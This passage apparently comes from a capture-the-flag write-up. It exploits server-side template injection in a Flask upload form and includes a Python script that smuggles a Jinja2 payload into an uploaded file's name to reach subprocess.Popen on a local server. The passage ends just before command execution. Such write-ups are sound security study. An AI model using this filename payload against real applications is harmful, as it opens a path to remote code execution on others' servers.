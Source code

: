 Maybe `os`? How about `subprocess`? Let’s see if they exists.

![Untitled](images/Untitled%2016.png)

Sadly `os` doesn’t exists, but `subprocess.Popen` does! Let’s use it, we know it is on line 395 → so zero-indexing would be 394. For sanity purpose, let’s try it out with a python request script.

```python
import requests
import html
import os

cwd = os.path.dirname(os.path.realpath(__file__))

pattern = r"\[(.*?)\]"

files = {
    'file' : ("{{get_flashed_messages.__class__.__mro__[1].__subclasses__()[394]}}.exe", '123')
}

r = requests.post('http://localhost/upload', files=files)
print(html.unescape(r.text))
content = html.unescape(r.text)
exit()
```

With that we see the following output.

```python
<class 'subprocess.Popen'>.exe is not valid because it is too big or has the wrong extension
```

We see that the `subprocess.Popen` class appears which is good, now we just need to find a way to run the command. To run a command through `Popen` is rather simple, we just need to do the following
